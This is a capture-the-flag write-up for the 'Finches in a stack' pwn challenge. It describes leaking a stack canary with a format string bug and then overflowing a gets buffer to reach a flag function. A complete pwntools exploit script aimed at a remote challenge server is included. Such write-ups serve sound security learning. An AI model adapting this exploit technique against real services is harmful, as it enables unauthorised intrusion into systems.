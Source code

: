 # Finches in a stack

Let's run a checksec. Canary, no PIE.

On our first input, there's a format string vuln. 

On the second input, there's a buffer overflow as gets is used. 

There's a canary, so this isn't so easy. 

We can, however, use our format string vulnerability to leak the canary value, as the canary is stored on the stack and format strings let us leak values stored on the stack. I used a simple fuzzing script to find the canary offset, which was 11. We can set a breakpoint at the instruction which checks the canary and paste in a cyclic pattern to get the offset to the canary, which is 24 by checking the loaded canary value from the stack against the pattern. Our payload will be:

junk + canary + 12 bytes of junk + address of flag function

And this works perfectly.
```python
from pwn import *
import re
e = ELF("./fias")
#p = e.process()
p = remote('95.216.233.106',64832)
p.clean()
p.sendline("%11$p")
output = p.recvline().decode()
print(output)
leak = int(re.findall("Nice to meet you, (.*)!", output)[0], 16)
canary = leak
log.info(f"Canary: {hex(canary)}")
padding = b'A' * 25
payload = flat(padding, canary, b'A' * 12, e.symbols['flag'])
p.sendline(payload)
p.interactive()
```
